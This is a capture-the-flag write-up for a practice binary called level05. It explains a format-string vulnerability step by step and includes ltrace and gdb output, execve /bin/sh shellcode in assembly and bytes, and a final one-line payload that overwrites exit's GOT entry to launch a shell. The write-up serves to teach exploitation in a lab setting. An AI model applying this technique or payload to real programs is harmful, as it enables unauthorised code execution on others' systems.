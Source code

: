 # Got some more printf (level05)

This [binary](source.c) takes 100 bytes of user input through a secure `fgets`
call. Then it loops on the character of the resulting string and basically
applies a `tolower` function to each one. When it's done, it prints the _input_
buffer directly with `printf` and exits.

As usual, we can exploit the hell out of this insecure `printf` call.

```shell
# run  the binary
./level05
# give it some input
iiii%10$p
# see the result
iiii0x69696969
```

We reach into our buffer at the 10th parameter. Now, since `exit` is called
right after the printf, what we're gonna do is overwrite it's got address and
replace it with the address of our shellcode that we're going to give in input.

Using ltrace, we can get the address of the input buffer:

```shell
# launch the binary with ltrace
ltrace ./level05
__libc_start_main(0x8048444, 1, -9228, 0x8048520, 0x8048590 <unfinished ...>
# give it some input
fgets(iiii%10$p
# see the result
"iiii%10$p\n", 100, 0xf7fcfac0)                            = 0xffffdae8
printf("iiii%10$p\n", 0x64iiii0x69696969
)                                      = 15
exit(0 <unfinished ...>
+++ exited (status 0) +++
```

This traces each library calls and shows their arguments and return values. What
is a little bit annoying with ltrace is that when it detects a character pointer
or buffer it automatically shows a string and not the address, except on the
return value. Since, on success, `fgets` returns the buffer it was given in
input, the address of our buffer is: 0xffffdae8.

Here is the shellcode we are going to use:

```nasm
section .text
global _start
_start:
xor		ecx, ecx	; set ecx to 0 (argv == NULL)
xor		edx, edx	; set edx to 0 (envp == NULL)
push	ecx			; push 0 to the stack to end the command string
push	0x68732f2f	; "//sh" end of the command string
push	0x6e69622f	; "/bin" start of the command string
mov		ebx, esp	; set ebx to the start of the command string
push	0xb			; push 11 (execve int number)
pop		eax			; set eax to 11
int		0x80		; execve("/bin//sh", NULL, NULL)
```

> It is very similar to the one used in rainfall's
> [bonus 0](https://github.com/Taiwing/rainfall/tree/master/bonus0), except that
> it is shorter since argv is set to NULL (because we can).

Using the compile\_nasm.bash and generate\_shellcode.bash scripts from
rainfall's shellcode
[guide](https://github.com/Taiwing/rainfall/tree/master/shellcode) we get this
string:

`\x31\xc9\x31\xd2\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x6a\x0b\x58\xcd\x80`

This should work, although we have a little problem since some bytes in the
shellcode do match uppercase ascii letters. If we just put it in our buffer like
that these values are going to be modified and the shellcode wont work. What we
need to do is add null byte after our format string and then our payload. This
will work because `fgets` does not stop on a null byte but either on a newline
or an EOF and it will protect our payload since `strlen` will stop on the null
byte.

Now we need `exit`'s got address for the target of our %n conversion:

```shell
(gdb) disass exit
Dump of assembler code for function exit@plt:
   0x08048370 <+0>:     jmp    *0x80497e0
   0x08048376 <+6>:     push   $0x18
   0x0804837b <+11>:    jmp    0x8048330
End of assembler dump.
```

Lets build the payload. The first four bytes are going to be `exit`'s got
address. Then we're going to add an integer conversion and set its field width
to the address of our shellcode - 4 bytes (for the first four bytes already in
the format string). Then the %n conversion which is going to target got's
address and write into it the number of characters already printed (so the last
conversion's field width + 4).

The buffer starts at 0xffffdae8, which is 4294957800 in decimal. We should as
usual use padding to write the address of the shellcode and replace `exit`'s got
address. The problem here is that the padding we need is way to big to be passed
directly to a single conversion. The maximum I have been able to specify is:
470000000 which is a little bit more than a tenth of what we want. This is
annoying. Also writing all those zeroes is very long. I'm not even sure that
printf would not return an error before that. But we can do something smarter.

The n parameter need not be an int pointer. It can also be a short or even a
char pointer. This means that we can write our big number with two or four n
conversions, which will be way easier and faster. The address we want to write
is that of our shellcode. There is 36 bytes of payload (counting the null byte)
before the shellcode, so the address we want to write is 0xffffdb0c.

First we're going to write the lowest part of the address "0xdb0c". This is a
padding of 56076, minus 8 for the two addresses before the first padding
conversion so 56068. We take the 10th parameter for the first n conversion, so
the first address in our buffer. We use the 'h' modifier to write a short int,
so two bytes.

Then we must write the two upper bytes of our address, so "0xffff". We have
already written 56076 bytes. Since "0xffff" is 65535 in decimal, we must still
write 65535 - 56076 bytes. This is a padding of 9459 for the second conversion.
Then, the second n conversion will write these two bytes to the 11th parameter's
value, which is the second address in our buffer. This is the previous one + 2
to skip the upper bytes.

```shell
(python -c 'print "\x08\x04\x97\xe0"[::-1] + "\x08\x04\x97\xe2"[::-1] + "%056068u%10$hn" + "%09459u%11$hn" + "\x00\x31\xc9\x31\xd2\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x6a\x0b\x58\xcd\x80"'; cat) | ./level05
```
